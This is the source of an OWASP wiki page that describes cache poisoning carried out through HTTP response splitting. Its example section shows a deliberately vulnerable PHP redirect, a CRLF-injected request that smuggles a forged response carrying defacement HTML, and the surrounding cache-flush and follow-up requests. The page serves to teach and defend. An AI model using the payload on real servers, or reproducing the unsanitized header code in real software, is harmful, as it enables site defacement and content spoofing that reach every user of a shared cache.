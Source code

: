 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: 
contributors: 
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning
auto-migrated: 1

---
```



Last revision (mm/dd/yy): **04/23/2009** <small>(please *view
source*)</small>

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

  - Finds the vulnerable service code, which allows them to fill the
    HTTP header field with many headers.
  - Forces the cache server to flush its actual cache content, which we
    want to be cached by the servers.
  - Sends a specially crafted request, which will be stored in cache.
  - Sends the next request. The previously injected content stored in
    cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement "wikilink").

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting "wikilink") and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carrige Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. <http://testsite.com/redir.php?page=http://other.testsite.com/>

And exemplary code of the redir.php:

    rezos@dojo ~/public_html $ cat redir.php
    <?php
    header ("Location: " . $_GET['page']);
    ?>

Crafting appropriate request: \[1\]

1 - remove page from the cache

    GET http://testsite.com/index.html HTTP/1.1
    Pragma: no-cache
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

HTTP header fields "Pragma: no-cache" or "Cache-Control: no-cache" will
remove the page from cache (if the page is stored in cache, obviously).

2 - using HTTP Response Splitting we force cache server to generate two
responses to one request

    GET http://testsite.com/redir.php?site=%0d%0aContent-
    Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
    Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
    nt-Length:%2020%0d%0aContent-
    Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

  - Last-Modified (checked byt the If-Modified-Since header)
  - ETag (checked by the If-None-Match header)

3 - sending request for the page, which we want to replace in the cache
of the server

    GET http://testsite.com/index.html HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

In theory, the cache server should match the second answer from the
request \#2 to the request \#3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal techique for
cache poisoning. It's due to cache server's different connection model
and request proccessing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from \[1\], which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks \[1\]
<http://packetstormsecurity.org/papers/general/whitepaper_httpresponse.pdf>
by Amit Klein, Director of Security and Research

## Related [Threat Agents](Threat_Agent "wikilink")

  - TBD

## Related [Attacks](Attacks "wikilink")

  - [HTTP Response Splitting](HTTP_Response_Splitting "wikilink")
  - [Cross-User_Defacement](Cross-User_Defacement "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [Input_Validation](Input_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

TBD

[need to update now that it's 2009](Category:FIXME "wikilink") [I wasn't
sure what the first 2 sentences were trying to say, can someone take a
look at these?](Category:FIXME "wikilink") [Category:Input
Validation](Category:Input_Validation "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:OWASP ASDR
Project](Category:OWASP_ASDR_Project "wikilink")